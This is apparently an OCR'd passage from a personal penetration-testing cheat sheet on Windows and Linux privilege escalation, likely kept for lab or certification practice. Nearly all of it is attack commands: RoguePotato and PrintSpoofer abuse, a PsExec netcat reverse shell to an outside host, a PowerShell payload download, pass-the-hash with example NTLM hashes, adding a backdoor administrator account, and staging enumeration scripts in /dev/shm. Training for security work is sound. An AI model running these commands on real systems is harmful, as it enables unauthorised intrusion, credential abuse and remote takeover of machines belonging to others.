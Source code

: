                 > sudo socat tcp-listen:135,reuseaddr,fork tcp:192.168.1.155:9999
            - ON WINDOWS: run rogue potato, assign -l to port used in socat
                > RoguePotato.exe -r 192.168.1.156 -l 9999 -e "C:\PrivEsc\reverse.exe"
    - PrintSpoofer
        - You must perform "whoami /priv" first, and "SeImpersonatePrivilege" must be enabled (possibly "SeAssignPrimaryToken" as well).
        - Must have windows C++ installe
            - verify
                > wmic product get name
        > C:\PrivEsc\PrintSpoofer.exe -i -c "C:\PrivEsc\reverse.exe"
    - PsExec:ping 192.168.147.43

- PE to netcat as user
            > PsExec64.exe -accepteula -u alice -p aliceishere cmd /c "c:\Users\Public\nc.exe 192.168.119.135 80 -e cmd.exe"
        - PE to reverse shell   
            > PsExec64.exe -accepteula -i -s C:\PrivEsc\reverse.exe
    - Download files with powershell:
        > powershell -c "(new-object System.Net.WebClient).DownloadFile('wget http://192.168.119.135/wget.exe','C:\Users\offsec\Desktop\wget.exe')"
    - minireverse.ps1 with psexec
        > powershell.exe -c "$user='BUFF\Administrator'; $pass=''; try { Invoke-Command -ScriptBlock { Get-Content C:\Users\Administrator\Desktop\root.txt } -ComputerName BART -Credential (New-Object System.Management.Automation.PSCredential $user,(ConvertTo-SecureString $pass -AsPlainText -Force)) } catch { echo $_.Exception.Message }" 2>&1
    - pass the hash (From from kali)
        - Example admin hash on windows 2012 --> "Administrator:500:aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7:::"
        - psexec.py
            > psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7 -target-ip 10.10.10.82 administrator@10.10.10.82
        -pth-winexe 
            > pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //192.168.135.10 cmd
    - Manually add user to admin group
        > net user /add cooldude password123
        > net localgroup administrators cooldude /add


# Linux PE Section
-------------------
*Linux PE Steps*
1) Run the following commands, figure out who you are with rights
    > whoami
    > id
    > groups
2) work from /dev/shm (usually world writable / readable)
3) run lse and linpeas at the same time to output files

cd /dev/shm
    - wget all the files
chmod +x lse.sh linpeas.sh LinEnum.sh suid3num.py
./lse.sh -l 1 -i 2>&1 > lse.out &
./linpeas.sh 2>&1 > linpeas.out &
./LinEnum.sh 2>&1 > LinEnum.out &
python ./suid3num.py 2>&1 > suid3num.out &
mkdir enum
`mv *.out ./enum
tar -zcvf enum.tar.gz ./enum
